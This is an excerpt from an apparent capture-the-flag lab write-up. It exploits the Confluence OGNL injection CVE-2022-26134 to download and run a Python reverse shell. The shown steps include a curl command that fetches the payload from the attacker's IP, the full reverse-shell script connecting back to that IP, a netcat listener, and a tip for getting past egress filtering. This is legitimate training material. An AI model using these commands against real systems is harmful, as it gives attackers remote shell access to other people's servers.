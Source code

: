 > Note: I originally used a different port for the reverse shell and that didn't work, so I eventually went with port 8090 (more on this below).

I serve my python script over http on port 8090. I tried other ports but it seems there are some firewall rules for egress from the remote machine ports 80 and 443 didn't work.

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
192.168.176.41 - - [10/Mar/2024 09:36:27] "GET /rshell.py HTTP/1.1" 200 -
^C
```

I download it by using the exploit script and verify the contents

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/ --cmd 'curl -o /tmp/rshell.py http://192.168.45.172:8090/rshell.py'
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // 

[!] Saving the output result in: exploit_result.txt
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/ --cmd 'cat /tmp/rshell.py'                                         
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // #!/usr/bin/env python3  import socket import subprocess import os  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM) s.connect(("192.168.45.172",8090))  os.dup2(s.fileno(),0) os.dup2(s.fileno(),1) os.dup2(s.fileno(),2)  p=subprocess.call(["/bin/sh","-i"]) 

[!] Saving the output result in: exploit_result.txt
```

I set up a local listener to catch the reverse shell (again, on port 8090 because we know that works):

```
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ nc -lnvp 8090
listening on [any] 8090 ...
```

I run the python reverse shell script on the remote machine using the exploit script:
                                
```                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/ctf200]
└─$ python 50952.py --url http://ctf200:8090/ --cmd 'python3 /tmp/rshell.py'
[-] CVE-2022-26134
[-] Confluence Pre-Auth Remote Code Execution via OGNL Injection 

Found: http://ctf200:8090/ // 

[!] Saving the output result in: exploit_result.txt
```
